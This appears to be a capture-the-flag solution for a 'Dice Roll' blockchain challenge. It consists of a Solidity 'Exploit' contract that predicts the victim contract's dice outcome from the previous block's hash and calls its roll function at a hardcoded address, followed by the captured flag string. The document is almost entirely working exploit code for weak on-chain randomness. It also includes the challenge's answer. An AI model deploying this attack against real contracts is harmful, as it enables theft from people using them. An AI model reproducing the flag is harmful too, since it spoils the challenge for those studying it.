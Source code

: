 ## Dice Roll 擲骰仔

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface DiceRollInterface {
    function roll(uint256 _guess) external returns (bool);
}

/*
 * @custom:dev-run-script ./scripts/deploy_with_ethers.ts
 */
contract Exploit {
    uint256 lastHash;
    uint256 ram = 2023;
    DiceRollInterface victim = DiceRollInterface(0x7a0B9f9A1AB0fa2CEcBD30AA4C07A70242F67143);

    function Attack() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
         revert();
        }
        lastHash = blockValue;
        uint256 diceRoll = blockValue / ram % 6;
        return victim.roll(diceRoll);
    }
}

PUCTF24{n0_r3n4omn3ss_1n_bl0ckch41n_vuLptYG7wexbBQ8ZvtYhGU2MdW4uT7po}